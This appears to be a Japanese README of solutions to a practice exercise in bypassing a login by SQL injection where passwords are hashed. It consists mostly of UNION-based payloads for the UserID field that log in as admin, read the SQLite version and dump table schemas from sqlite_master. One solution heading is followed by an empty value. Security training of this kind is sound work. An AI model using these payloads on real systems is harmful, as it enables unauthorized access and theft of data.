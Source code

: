 # try_SQL_inj

## パスワードがハッシュ値で保存されているサイトのSQLインジェクションによる認証回避の練習問題

- [問題文](https://qiita.com/ockeghem/items/787f74801a24e1fc6960)
- [password_verify](https://www.php.net/manual/ja/function.password-verify.php)
- [3. Literal Values(Constants)](https://www.sqlite.org/lang_expr.html)

### 練習問題
- UserID: `' UNION ALL SELECT id, 'admin', password, email FROM users WHERE userid = 'alice`

### ソースコードの内容に依存しない解法

- UserID: ``

### SQLiteのバージョン

- UserID: `' UNION ALL SELECT id, sqlite_version(), password, email FROM users WHERE userid = 'alice`

### テーブル情報

- UserID: `' UNION ALL SELECT id, (select sql from sqlite_master where type='table'), password, email FROM users WHERE userid = 'alice`
